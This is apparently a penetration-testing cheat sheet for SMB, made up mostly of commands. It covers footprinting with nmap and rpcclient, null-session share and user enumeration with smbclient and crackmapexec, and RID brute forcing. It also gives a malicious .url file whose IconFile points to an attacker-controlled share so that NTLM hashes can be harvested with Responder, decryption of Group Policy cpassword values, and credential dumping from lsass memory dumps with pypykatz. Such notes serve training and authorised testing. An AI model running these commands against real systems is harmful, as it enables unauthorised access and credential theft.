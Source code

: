 # Server Message Block

## Footprinting The Service

### Nmap

{% code overflow="wrap" %}
```
sudo nmap 10.129.14.128 -sV -sC -p139,445
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

### RPCclient

{% code overflow="wrap" %}
```
rpcclient -U "" 10.129.14.128
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

| Query                     | Description                                                        |
| ------------------------- | ------------------------------------------------------------------ |
| `srvinfo`                 | Server information.                                                |
| `enumdomains`             | Enumerate all domains that are deployed in the network.            |
| `querydominfo`            | Provides domain, server, and user information of deployed domains. |
| `netshareenumall`         | Enumerates all available shares.                                   |
| `netsharegetinfo <share>` | Provides information about a specific share.                       |
| `enumdomusers`            | Enumerates all domain users.                                       |
| `queryuser <RID>`         | Provides information about a specific user.                        |

## Search For Known SMB Version Vulnerabilities

## Check For Shares Using Null Sessions

```
smbclient -N -L //$ip/
```

```
cme smb $ip --shares -u "guest" -p ""
```

## URL File attacks

_Test for URL File attacks by creating a file called "@somename.url" with the following contents, upload, spin up smbserver to capture hash_

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\EnterAttackerip\%USERNAME%.icon
IconIndex=1
```

_Run Responder to capture hashes_

```
/opt/Responder-3.1.3.0/Responder.py -I tun0
```

## Read / Upload access

_Attempt to download and view share contents using valid credential / anonymous login / null session_

```
smbmap -u guest -p "" -H $ip -A '.*' -R
```

## Cpassword discovery

_Search "Groups.xml" for cpassword decryption_

```
gpp-decrypt cpassword
```

## lsass.zip lsass.dmp

_search lsass.zip or lsass.dmp to use to dump credentials / keys / tickets_

```
pypykatz lsa minidump "lsass.zip"
```

## Alternate Data Streams (ADS)

_test for alternate data streams after discovering 0 byte files_

```
allinfo filename
```

## Check Password Policy

```
cme smb $ip --pass-pol -u guest -p ""
```

## User Discovery

_Check For users using valid credential / anonymous login / null session_

```
cme smb $ip --users -u guest -p ""
```

```
cme smb $ip --rid-brute -u guest -p ""
```

## Group discovery

_check for groups using valid credential / anonymous login / null session_

```
cme smb $ip --groups -u guest -p ""
```

## Smbclient

_Interactively access the smb shares using smbclient_

```
smbclient //$ip/someshare -N
```

```
smbclient //$ip/someshare -U 'guest' -N
```

```
smbclient //$ip/someshare -U 'validuser' -p 'validpass'
```



## Dangerous Settings

| Setting                     | Description                                                         |
| --------------------------- | ------------------------------------------------------------------- |
| `browseable = yes`          | Allow listing available shares in the current share?                |
| `read only = no`            | Forbid the creation and modification of files?                      |
| `writable = yes`            | Allow users to create and modify files?                             |
| `guest ok = yes`            | Allow connecting to the service without using a password?           |
| `enable privileges = yes`   | Honor privileges assigned to specific SID?                          |
| `create mask = 0777`        | What permissions must be assigned to the newly created files?       |
| `directory mask = 0777`     | What permissions must be assigned to the newly created directories? |
| `logon script = script.sh`  | What script needs to be executed on the user's login?               |
| `magic script = script.sh`  | Which script should be executed when the script gets closed?        |
| `magic output = script.out` | Where the output of the magic script needs to be stored?            |
